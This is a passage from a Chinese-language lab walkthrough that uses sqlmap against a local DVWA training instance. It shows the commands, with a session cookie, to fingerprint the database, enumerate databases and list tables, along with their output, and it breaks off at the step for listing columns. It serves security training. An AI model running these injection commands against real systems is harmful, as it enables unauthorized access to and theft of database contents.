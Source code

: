 #### HIGH

### 使用 sqlmap

**获取数据库信息**

```shell
sqlmap -u "http://192.168.30.131/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch
```

result

```
[08:44:12] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.5.38, Apache 2.4.39
back-end DBMS: MySQL >= 5.6
```

**获取数据库**

```shell
sqlmap -u "http://192.168.30.131/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch --dbs
```

result

```
[08:47:22] [INFO] fetching database names
available databases [5]:
[*] dvwa
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

**查看指定数据库并展示所有表：**

```shell
sqlmap -u "http://192.168.30.131/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa --tables
```

result

```
[08:49:55] [INFO] fetching tables for database: 'dvwa'
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```

**查看指定数据库的指定表的所有列：**
